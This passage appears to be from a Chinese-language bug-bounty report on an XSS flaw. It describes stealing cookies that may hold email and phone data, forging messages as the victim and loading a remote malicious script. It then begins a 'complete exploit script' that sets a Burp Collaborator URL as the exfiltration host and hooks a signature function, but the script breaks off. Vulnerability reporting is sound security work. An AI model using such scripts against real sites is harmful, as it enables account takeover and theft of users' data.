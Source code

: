     ![consolelog2](/assets/images/consolelog2.png)

7. 该XSS的利用

- 首先是窃取cookie，可能会带有邮箱和手机号信息
[cookie](/assets/images/cookie.png)
- 伪造发送消息等
前面通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### Proof
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314
完整利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })
